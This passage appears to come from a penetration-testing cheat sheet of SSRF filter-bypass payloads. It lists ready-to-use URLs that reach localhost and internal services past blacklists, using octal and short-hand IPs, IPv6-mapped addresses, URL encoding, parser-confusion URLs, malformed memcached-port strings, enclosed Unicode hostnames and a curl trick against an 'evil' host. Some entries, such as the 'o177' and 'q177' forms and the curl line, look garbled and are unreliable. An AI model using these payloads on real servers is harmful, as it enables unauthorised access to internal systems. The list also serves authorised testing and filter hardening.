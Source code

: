 Implementations differ on how to handle octal format of ipv4.

`http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1`

## **Bypass using IPv6/IPv4 Address Embedding**

`http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]`

## **Bypass using malformed urls**

```
localhost:+11211aaa
localhost:00011211aaaa
```

## **Bypass using rare address**

You can short-hand IP addresses by dropping the zeros

`http://0/
http://127.1
http://127.0.1`

## **Bypass using URL encoding**

Single or double encode a specific URL to bypass blacklist

`http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin`

## **Bypass using bash variables**(curl only)

`curl -v "http://evil$google.com"$google = ""`

## **Bypass using tricks combination**

```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

## **Bypass using enclosed alphanumerics**

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
